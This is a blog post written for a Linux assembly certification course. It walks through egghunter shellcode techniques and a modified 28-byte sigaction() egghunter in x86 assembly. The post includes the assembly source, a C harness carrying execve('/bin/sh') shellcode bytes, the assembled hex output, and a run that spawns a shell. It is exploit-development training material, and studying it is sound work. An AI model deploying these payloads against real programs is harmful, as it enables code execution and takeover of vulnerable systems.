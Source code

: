 ```yaml
---
title:  "[SLAE 3] Egghunter Shellcode"
---
```


![Logo](/assets/images/tux-root.png)

## Creating an egghunter shellcode

For the third assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) course I've studied different egghunter payloads. The starting reference paper for this is **skape**'s [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). 

I've implemented the 3 methods described in the paper:
* **access()** - Small and robust egghunter using _`access()`_ system call to check validity  of addresses. 
  * **Cons**: size is 39 bytes and the egg needs to be executable because after finding it, the execution jump before the egg and continues on.
* **access() revisited** - smaller (35 bytes), minor speed improvements, egg does not need to be executable. 
  * **Cons**: sets DF flag in case of failure (in very rare cases this could impact the running of the host application)
* **sigaction()** - even smaller (30 bytes), robust and very fast (validates 16 bytes at a time). 
  * **Cons**: some very rare odd failure situation described in detail in the paper.

For the purpose of this post, I'll detail my slightly modified version of the _`sigaction()`_ egghunter:
* **sigaction() reloaded** - the smallest version (__*only 28 bytes*__). I've replaced the double check for the egg with only one check. To avoid finding the egg in the comparison from the shellcode, I've applied a small transform before searching for it (_`inc eax`_ in this case, but could be any other 1 bytecode operation also - e.g. shifting bytes).

```asm
global _start   

section .text
_start:
    or cx,0xfff             ; page allignment
next_addr:
    inc ecx                 ; Pointer to region to be validated
    push byte +0x43         ; sigaction() syscall number
    pop eax                 ; Syscall number in eax
    int 0x80                ; Execut ethe syscall
    cmp al,0xf2             ; Compare with EFAULT
    jz short _start         ; Go to next page
    mov eax, <EGG>          ; The egg
    inc eax                 ; Egg modification. Avoid first find from above!
    mov edi,ecx             ; Prepare for comparison
    scasd                   ; Compare
    jnz short next_addr     ; Jump to next address
    jmp edi                 ; Jump to shellcode
```

To test it I've used the following C program simulating a real payload:
```
[  filler  ] [  egghunter  ] [  garbage  ] [  shellcode  ]
```

```c
#include <stdio.h>
#include <string.h>
 
#define     EGG     "<EGG>"
 
unsigned char sled[] = "Some misc bytes here";
unsigned char egghunter[] = 
        "<EGGHUNTER>";
unsigned char garbage[] = "Garbage, mangled bytes, whatever";
// execve(/bin/sh,..) shellcode here 
unsigned char shellcode[] = EGG
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
                "\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
 
// Function pointer
typedef int (*func_ptr)();
 
void main() {
    printf("Egghunter length: %d bytes\n", strlen(egghunter));
    printf("Shellcode Length:  %d bytes\n", strlen(shellcode));
 
    ((func_ptr) egghunter)();
}
```

The egg is configurable, and the compilation takes place from a wrapper script: 
```bash
$ ./compile.sh 
Usage: compile.sh {4 chars EGG mark}
 E.g.: compile.sh W00T
$ ./compile.sh BUBU
  [*] Using egg  BUBU
  [*] (Modified) Egg hex:, 0x55425542
  [+] Replace egg with, BUBU
  [+] Assembling egghunter
  [+] Linking egghunter
  [*] Egghunter:
\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x42\x55\x42\x55\x40\x89\xcf\xaf\x75\xeb\xff\xe7
  [+] Compile shellcode tester
  [+] House cleaning
  [+] Done! run ./shellcode
$ ./shellcode
Egghunter length: 28 bytes
Shellcode Length:  29 bytes
$ whoami
liv
```

# 

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
